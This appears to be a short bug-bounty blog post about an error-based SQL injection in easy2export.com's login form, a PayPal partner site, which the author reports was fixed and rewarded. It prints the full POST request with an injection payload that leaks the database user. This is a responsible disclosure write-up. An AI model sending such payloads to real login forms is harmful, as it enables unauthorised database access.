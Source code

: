 ```yaml
---
layout: post
title: "sqli in paypal partner"
date: 2014-11-22T07:14:07-05:00
description: "error based sql injection in easy2export.com"
---
```


At first try, I tried to test their login form. Luckily after a few minutes of testing, I found a critical POST SQL Injection!

```
http://easy2export.com/index.php/site/login

POST /index.php/site/login HTTP/1.1
Host: easy2export.com
…
LoginForm[username]=’ or 1 group by concat_ws(0x3a,user(),floor(rand(0)*2)) having min(0) or 1–+&LoginForm[password]=’&LoginForm[accounttype]=sub&LoginForm[rememberMe]=0&yt0=
```

The code below shows the HTTP request plus the SQL Query `’ or 1 group by concat_ws(0x3a,user(),floor(rand(0)*2)) having min(0) or 1–+` which I used to display the current database user which was shown in the picture below.

<br>
<p align="center">
<img src="/assets/images/easy2export-sql-injection1.png">
</p>
<br>
I reported the said vulnerability to PayPal and they fixed it immediately. After a month, I was awarded with a $1000 bounty for this.
<p align="center">
<img src="/assets/images/paypal-bounty.png">
</p>

Thanks for reading! Stay tuned for more blog posts.
